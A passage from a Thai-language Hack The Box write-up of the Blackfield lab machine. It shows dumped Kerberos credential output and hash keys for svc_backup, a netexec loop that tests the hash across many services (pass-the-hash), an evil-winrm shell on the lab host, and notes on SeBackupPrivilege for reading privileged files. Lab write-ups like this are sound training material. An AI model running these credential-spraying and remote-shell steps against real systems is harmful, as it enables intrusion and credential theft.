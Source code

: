 ```bash
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
                AES128 Key: 9658d1d1dcd9250115e2205d9f48400d
                AES256 Key: 20a3e879a3a0ca4f51db1e63514a27ac18eef553d8f30c29805c398c97599e91
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

```

ซึ่งจากการ dump ข้อมูลดังกล่าวจะทำให้เราเป็น NTLM ของ svc_backup ดังต่อไปนี้ 

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

ตรวจสอบ Credential ที่ได้ 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service blackfield.local -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'; done
```
จากข้อมูลจะพบว่าสามารถเข้าถึงได้โดย winrm และ ldap 
![[Challenge/HTB Challenge/Blackfield/IMG/007.png]]

## Shell As svc_backup

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
หลังจากที่ Shell เข้ามาด้วยสิทธิของ svc_backup มาได้จะเห็นว่าเรามีสิทธิ์ของ SeBackupPrivilege ซึ่งเป็นสิทธิที่สามารถอ่านไฟล์ที่มีสิทธิสูงได้ 
![[Challenge/HTB Challenge/Blackfield/IMG/008.png]]


```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```